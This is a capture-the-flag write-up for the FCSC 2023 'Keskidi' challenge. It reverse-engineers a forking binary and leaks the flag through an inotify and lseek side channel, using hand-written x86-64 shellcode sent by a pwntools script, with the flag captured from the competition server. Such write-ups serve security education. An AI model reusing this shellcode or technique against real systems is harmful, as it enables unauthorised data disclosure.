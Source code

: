 # FCSC 2023 : Keskidi writeup

## Brief Summary
Essentially, we have an executable which calls `fork()`, the child process is unprivileged and runs some user provided shellcode, while the parent process does some operations on a temporary file (accessible from both processes via  a file descriptor) based on the content of the flag.

*Note: For convenience I added symbols using objcopy into a new binary `keskidi_s` , and I refer to them in this WU for clarity*

## Before forking

- The program creates a temporary file, saves its fd `tmp_fd` in the `.bss` at `tmp_fd`
- It then generates 4096 bytes that are then copied into the temporary file, and into the `.bss` at `tmp_buff`.

*Note: because there are only 255 non-null possibles chars, and we generate 4096 bytes, given a flag character, it is extremely unlikely that the buffer and temporary file do not contain it at least once.*

## After forking 
### What is the parent process doing ?

First, the parent opens `flag.txt`, copies its content to a local buffer `flag_buf`
Then it follows this procedure (decompilation from ghidra + variables renamed)

```C
  len_flag = strlen(flag_buf);
  for (i = 0; i < (int)len_flag; i = i + 1) {
    head = &tmp_buff;
    do {
      head = (undefined *)memchr(head,(int)flag_buf[i],0x1000 - (long)(head + -0x4060));
      if (head != (undefined *)0x0) {
        lseek(tmp_fd,(__off_t)(head + -0x4060),0);
        write(tmp_fd,&zero,1);
        syncfs(tmp_fd);
        head = head + 1;
      }
    } while (head != (undefined *)0x0);
  }
  flag_fd = close(tmp_fd);
```

Relevant things to note :
- each time a character is written, `syncfs()` is called, which ensures the write is propagated to the file system
- at each write, the position indicator of the tmp file is set by to some value, say `j-1`, by the `lseek` call, then to `j` by the call to `write()`
- We have that `flag[i]==tmp_buff[j-1]`

### What is the child process doing ?

It's quite straightforward, a user provided shellcode of length at most 256 bytes is ran into a freshly mmaped region in memory of size 256 bytes. At shellcode execution, this region is not writable.

## The Idea
Everytime a call to `syncfs` is used in the parent we output the corresponding flag character in the child, by peeking into `tmp_buffer`, using the head of the position indicator file, which we can get using an `lseek(tmp_fd,0,SEEK_CUR)` syscall. 

By looking into gdb, I found that tmp_fd is reliably equals to 4, and saw that `SEEK_CUR = 2` by compiling then running an appropriate C code that prints it.

The `inotify` API is exactly what we are looking for to peek on writes on a file. It is a family of syscalls which allow for monitoring of the filesystem.

Calling `inotify_init()` will return a special file descriptor, say `ifd`, that is blocking on `read` (stops execution) until an event happens.

Then, calling `inotify_add_watch(ifd,'proc/self/fd/4'),IN_MODIFY)` will make it so that modification events (IN_MODIFY) on the temporary file (accessible via `'proc/self/fd/4'` filename) will be registered in ifd

Reading from `ifd` will block until a new event has been registered.

So the idea is to have a loop in the child, in which at each iteration we do the following :
- wait for a write event (ie, read from `ifd`)
- retrieve the position indicator `j` of tmp_fd via `lseek`, 
- write `tmp_buff[j-1]` to `stdout`

Easy right ? Except that if a character is found multiple times in the `tmp_buffer`, there will be multiple writes for this character into the tmp file.

To circumvent this issue, I made the assumption (which luckily turned out to be right :P) that no two consecutive flag characters are equal, and so I adjusted the shellcode to only print a character to stdout if it is different from the previous.

## Exploit

Here is the bulk of the exploit.
I had to run it a number of times because sometimes some characters are missed

```python
ret_addr_off = 0x13c0
tmp_buff_off = 0x4060
tmp_buff_fd = 0x4040
tmp_fd = 4
tmp_name = b'/proc/self/fd/4\x00'
sc = b''

sc += asm(
        f"""
        pop r8
        add r8, {tmp_buff_off - ret_addr_off}
        
        xor rax, rax
        add al, 253
        syscall

        mov rdi, rax
        mov r10, {int.from_bytes(tmp_name[8:],'little')}
        push r10
        mov r10, {int.from_bytes(tmp_name[:8],'little')}
        push r10
        mov rsi, rsp
        mov rdx, 2
        xor rax, rax
        add al, 254
        syscall
        mov rcx, rax

        mov rbx, rdi
        xor r9, r9
        peek:
            mov rdi, rbx
            mov rdx, 16
            xor rax, rax
            syscall

            mov rdi, 4
            xor rsi, rsi
            mov rdx, 1
            xor rax, rax
            add al, 8
            syscall

            mov rax, QWORD PTR [rax - 1 +r8]
            push rax
            shl rax,56
            cmp rax,r9
            je peek

            mov r9, rax
            
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 1
            xor rax, rax
            add al, 1
            syscall

            cmp r8, r8
            je peek
        """
        )
        
io = start()
io.send(sc + b"\n")
io.interactive()
```

## FLAG
```
[*] '/home/skuuk/fcsc23/keskidi/keskidi_s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] Switching to interactive mode
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}[*] Got EOF while reading in interactive
$ 
```



